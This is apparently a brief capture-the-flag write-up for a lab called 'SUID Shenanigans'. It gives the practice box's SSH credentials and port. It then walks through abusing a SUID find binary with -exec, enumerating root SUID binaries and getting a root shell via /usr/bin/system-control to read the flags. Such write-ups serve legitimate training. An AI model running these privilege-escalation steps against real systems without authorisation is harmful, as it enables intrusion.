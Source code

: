 ## SUID Shenanigans

username: `holly`
password: `tuD@4vt0G*TU`

# nmap tip
ssh port: 65534

# find exploid
find has an option to `-exec` commands on each entry found. Since this program is owned by igor we can execute things as igor, proven by `find / -name flag1.txt -exec whoami \; 2>/dev/null`. Altering that to cat we can go `find / -name flag1.txt -exec cat /home/igor/flag1.txt \; 2>/dev/null`.

An difficult command gives all execututable files with a SUID bit by user. `find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"`. This gave a list. Trying all options `/usr/bin/system-control` gave a shell. In that shell typing `cat /root/flag2.txt` gave the final solution.